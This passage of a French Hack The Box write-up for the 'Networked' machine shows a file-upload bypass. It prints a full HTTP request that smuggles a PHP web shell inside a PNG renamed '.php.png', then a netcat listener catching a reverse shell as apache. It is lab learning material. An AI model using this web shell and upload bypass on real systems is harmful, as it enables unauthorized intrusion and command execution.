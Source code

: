 ```bash
Task Completed
```

### File Upload : RCE
Après avoir analysé le code source récupéré dans le **backup.tar**, on se rend compte qu'il existe un endoit **/photos.php** permettant d'observer les images uploader sur la page **/upload.php**.

Après quelque tests et analyse du code php, on réussi à uploader un fichier php et a executer du code. Pour cela, j'ai dans un premier temps uploader une veritable image png, puis j'ai changer l'extension en ".php.png". Ensuite, il a fallu supprimer le texte de l'image et le remplacer par du code PHP. Le plus important était de conserver le magic byte "PNG", c'est à dire les premiers octets de l'image permettant de reconnaitre qu'il s'agit bien d'une image PNG.
```bash
POST /upload.php HTTP/1.1
Host: 10.10.10.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------19843469784126652896583145162
Content-Length: 383
Origin: http://10.10.10.146
Connection: keep-alive
Referer: http://10.10.10.146/upload.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------19843469784126652896583145162
Content-Disposition: form-data; name="myFile"; filename="htb-logo.php.png"
Content-Type: image/png

PNG

<?php system($_REQUEST['cmd']); ?>
-----------------------------19843469784126652896583145162
Content-Disposition: form-data; name="submit"

go!
-----------------------------19843469784126652896583145162--
```

Pour obtenir un reverse shell de qualité, j'ai upload ensuite le code "Reverse shell Pentest Monnkey" afin d'obtenir un shell stable :

```bash
$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:56866.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 14:59:42 up  1:04,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ whoami
apache
```
